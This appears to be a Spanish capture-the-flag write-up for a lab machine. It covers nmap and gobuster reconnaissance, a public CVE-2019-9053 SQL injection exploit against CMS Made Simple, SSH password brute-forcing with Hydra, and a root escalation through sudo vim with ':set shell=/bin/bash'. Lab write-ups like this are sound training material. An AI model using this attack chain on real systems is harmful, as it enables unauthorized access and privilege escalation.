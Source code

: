 ### Tags `/usr/bin/vim` `searchsploit`

# Escaneo (*21,80,2222*)

```css
  sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n - Pn 10.10.85.210 -oN escaneo
```
![image](https://github.com/user-attachments/assets/22b64866-0de5-43f7-8257-d12bb121a6a5)

# Fuzzing (gobuster)
Hacemos gobuster a la web y encontramos un directorio llamado ``simple``

```css
  gobuster dir -u http://10.10.85.210 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -b 403,404 -x php,html,txt
```
![image](https://github.com/user-attachments/assets/e3ed087a-7812-4851-9a4e-0651eb90f794)

Viendo la WEB, abajo del todo aparecía la **versión del CMS**

![image](https://github.com/user-attachments/assets/6c2508b3-d9a9-4189-8cf8-c3ae0a018e1b)

## Searchsploit (cms)

![image](https://github.com/user-attachments/assets/933388a9-acf1-4ac9-99ad-fcac7609ea53)

Pusimos este comando para que se nos descargue en nuestra máquina el *EXPLOIT*

 ```ruby
searchsploit -m php/webapps/46635.py
```

Hacemos un *CAT* al exploit y podemos ver el código y vemos el **CVE** --> que es fundamental para poder buscar en google un exploit sobre ese CVE

![image](https://github.com/user-attachments/assets/91f3d6ca-5c8f-43a5-a349-0b3f92dfedfd)

# Explotación
Pusimos en google *CVE-2019-9053* exploit github y nos fuimos a este [Enlace](https://github.com/ELIZEUOPAIN/CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit)

![image](https://github.com/user-attachments/assets/ecc7259c-0507-4420-af61-c18ffe330389)

Y una ves que lo tengamos para ejecutarlo hacemos el siguiente comando --->``python3 cve.py -u http://10.10.85.210/simple --crack -w /usr/share/wordlists/rockyuo.txt``
Nos da un usuario y una contraseña *Hasheada* que no vamos a utilizar ya que como tenemos un Nombre de usuario y tenemos el **puerto 2222 de SSH** hacemos *HYDRA*

![image](https://github.com/user-attachments/assets/03f5f506-fa5a-4919-8766-9ce7bd871899)

### Hydra
Usamos hydra con el puerto SSH y nos da la *contraseña*

![image](https://github.com/user-attachments/assets/027c6243-e541-429f-b584-ff16eda4b511)

```css
 ssh mitch@10.10.85.210 -p 2222
```

# Escalada ROOT
Poniendo **sudo -l** vemos esta *vim* entonces podes hacer lo siguiente:

![image](https://github.com/user-attachments/assets/4755b461-b6e1-4c1e-aa2b-ec37e3598a40)

Lo que hacemos es ubicarnos dentro de **/tmp** ya que en esa carpeta tenemos los **permisos de escritura** y poniendo **sudo vim pawned**  --> podemos hacer lo esto:
Se nos abre vim y poniendo esto  ---> ``:set shell=/bin/bash`` ---> le das a *ENTER*

![image](https://github.com/user-attachments/assets/4638d2d8-7873-4e95-bcbb-8f846706fb7c)

Una ves dado *ENTER* pones esto esto otro y LISTO --> ``:shell`` +ENTER

![image](https://github.com/user-attachments/assets/09c57117-d9ca-4f2e-b3a6-01cdf66bbdf9)
![image](https://github.com/user-attachments/assets/3a01e4db-f42a-45ce-802f-e195eb746ee9)

